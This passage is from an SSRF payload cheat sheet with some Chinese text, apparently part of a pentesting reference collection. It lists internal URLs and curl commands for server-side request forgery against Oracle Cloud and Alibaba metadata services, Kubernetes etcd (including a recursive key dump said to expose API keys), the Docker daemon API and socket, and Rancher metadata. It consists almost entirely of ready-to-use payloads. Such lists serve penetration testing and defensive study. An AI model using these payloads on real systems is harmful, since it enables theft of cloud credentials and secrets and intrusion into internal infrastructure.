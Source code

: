 ### SSRF URL for Oracle Cloud

```powershell
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
```

### SSRF URL for Alibaba

```powershell
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```



### Kubernetes ETCD的SSRF URL

可能包含API密钥以及内部IP和端口

```powershell
curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true
```

### Docker的SSRF URL

```powershell
http://127.0.0.1:2375/v1.24/containers/json

简单示例
docker run -ti -v /var/run/docker.sock:/var/run/docker.sock bash
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/containers/json
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/images/json
```

更多信息：

- 守护程序套接字选项：[https://docs.docker.com/engine/reference/commandline/dockerd/#daemon-socket-option](https://docs.docker.com/engine/reference/commandline/dockerd/#daemon-socket-option)
- Docker引擎API：[https://docs.docker.com/engine/api/latest/](https://docs.docker.com/engine/api/latest/)

### Rancher的SSRF URL

```powershell
curl http://rancher-metadata/<version>/<path>
```

更多信息：[https://rancher.com/docs/rancher/v1.6/en/rancher-services/metadata-service/](https://rancher.com/docs/rancher/v1.6/en/rancher-services/metadata-service/)

## 实验靶场
